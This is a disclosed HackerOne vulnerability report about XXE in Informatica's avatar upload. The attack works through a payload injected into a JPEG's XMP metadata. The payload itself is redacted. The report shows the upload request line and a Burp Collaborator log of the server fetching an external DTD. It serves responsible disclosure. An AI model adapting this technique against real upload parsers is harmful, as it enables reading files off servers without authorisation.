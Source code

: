 # XXE through injection of a payload in the XMP metadata of a JPEG file

## Report Details
- **Report ID**: 836877
- **URL**: https://hackerone.com/reports/836877
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-04-02T05:09:42.965Z
- **Disclosed**: 2020-04-21T09:29:34.893Z

## Reporter
- **Username**: moebius
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Users are able to change their avatar picture. The avatar picture upload functionality is prone to a XXE attack when parsing the image file. Specifically, the XXE attack is executed through the injection of a payload in the "XMP metadata" of the uploaded JPEG file.

Proof of concept (note the "Burp Collaborator Payload pointing to an External DTD"):
```
POST /edit-profile-avatar!uploadImage.jspa HTTP/1.1
Host: ███████informatica.com

  [...REDACTED...PLEASE.SEE.SCREENSHOTS.FOR.FULL.PAYLOAD]
```

And I received the following calls (note the User-Agent "Java██████" confirming the vulnerability):

```
Interaction 0 
Type: HTTP 
Client IP: ███████ 
Timestamp: 2020-Apr-02 01:44:27 UTC  
Protocol: HTTP  

RAW HTTP request: 

GET /x.dtd HTTP/1.1 
Cache-Control: no-cache 
Pragma: no-cache 
User-Agent: Java██████ 
Host: N.syuj65rfsb27o1u78jcinsinnet6ky8n.burpcollaborator.net 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2 Connection: keep-alive
```

Similar calls were received from another IP address: 146.112.138.73

Furthermore, the affected host should not be allowed to start a new connection to the Internet.

## Impact

This issue can be abused to read arbitrary files and list directory contents from the filesystem of the XML processor application. I didn't try any reading, but JAVA (JSPA is a JAVA Servlet File) is calling my external service, so the vulnerability is confirmed.

## Attachments
- Screen_Shot_2020-04-02_at_2.04.53_AM.png
- Screen_Shot_2020-04-02_at_2.05.10_AM.png
- Screen_Shot_2020-04-02_at_2.05.44_AM.png

